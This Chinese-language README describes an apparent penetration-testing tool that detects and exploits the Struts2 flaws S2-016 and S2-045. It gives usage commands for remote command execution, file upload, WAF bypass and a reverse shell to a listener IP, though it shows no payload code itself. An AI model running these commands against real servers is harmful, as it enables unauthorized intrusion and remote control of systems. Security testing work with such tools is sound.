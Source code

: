# Struts2-tool

此工具用于检测和利用Struts2框架漏洞，目前支持S2-016（适用于Struts 2.0.0 - Struts 2.3.15）和S2-045（适用于Struts 2.3.5 – Struts 2.3.31和 Struts 2.5 – Struts 2.5.10）。这两个漏洞基本上就可以覆盖市面上所有较老的Struts版本了。

本工具在https://github.com/HatBoy/Struts2-Scan项目的基础上进行了改进，消除了bug，增加了一些功能。在此向原工具作者表示感谢。

该工具仅限安全从业者在法律法规允许的范围内使用，违规使用后果自负。 

## 运行环境

Python3.6.X及其以上版本

第三方库: click, requests, bs4

## 支持功能

1，单个url，多个url批量漏洞检测

2，返回网站物理路径

3，基本命令执行功能

4，文件上传功能 （目标为Struts 2.5.x时不支持）

5，反弹shell功能

6，支持携带cookie发包

7，支持配置http/https代理

8，支持过waf，已在一些waf环境下测试过。

工具对windows和Linux靶机，Struts 2.3.x和Struts 2.5.x版本均经过测试，除括号标出的特殊情况外，其他情况均可放心使用，在输入命令以及参数的时候注意对特殊字符加转义。

## 使用说明

1，显示使用帮助：

​      python3 struts2_tool.py -h 

2，单个url检测：

​      python3 struts2_tool.py -u \<要检测的url\>

3，多个url检测:  

​      python3 struts2_tool.py -f \<url文件的物理路径\>

4，返回网站物理路径:  

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> --webpath

5，命令执行（目标是windows需要设置GBK编码）:           

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> -e \[-c GBK\]

6，上传文件:           

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> --upfile \<待上传文件的物理路径\> --uppath \<上传目标物理路径\>

7，反弹shell:          

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> -r \<监听IP:监听端口\>



